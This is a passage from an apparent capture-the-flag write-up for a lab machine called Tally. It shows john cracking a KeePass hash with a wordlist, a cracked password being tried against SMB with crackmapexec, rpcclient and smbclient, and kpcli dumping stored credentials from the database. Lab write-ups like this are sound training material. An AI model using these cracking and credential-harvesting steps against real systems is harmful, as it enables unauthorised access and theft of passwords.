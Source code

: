 <br /><br />

With `john` now if I can perform the attack and get the password, before accessing the **KeePass** database, I check with `crackmapexec`, `rpcclient`, `smbclient` if they serve me to authenticate (many times it has worked) **but not**. The password allows me to obtain the credentials of a new user. There is also the `kpcli` tool (recommended by **[0xdf](https://0xdf.gitlab.io/){:target="_blank"}**), which allows to access the database from console in a very fast way.

```bash
john -w=$(locate rockyou.txt)
john -w=/usr/share/wordlists/rockyou.txt hash

crackmapexec smb 10.129.1.183 -u 'tim' -p 'simplementeyo' 2>/dev/null
rpcclient -U "tim" 10.129.1.183
smbclient -L 10.129.1.183 -U 'tim'
smbclient -L 10.129.1.183 -U 'tim%simplementeyo'
# :(

sudo apt search kpcli
sudo apt install kpcli
kpcli --help
kpcli --kdb=tim.kdbx
  help
# find -- Finds entries by Title
# show -- Show an entry: show [-f] [-a] <entry path|entry number>
  help find
  find            # :(
  find .
  show -f 0
  show -f 1
  show -f 2       # :)
```

<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
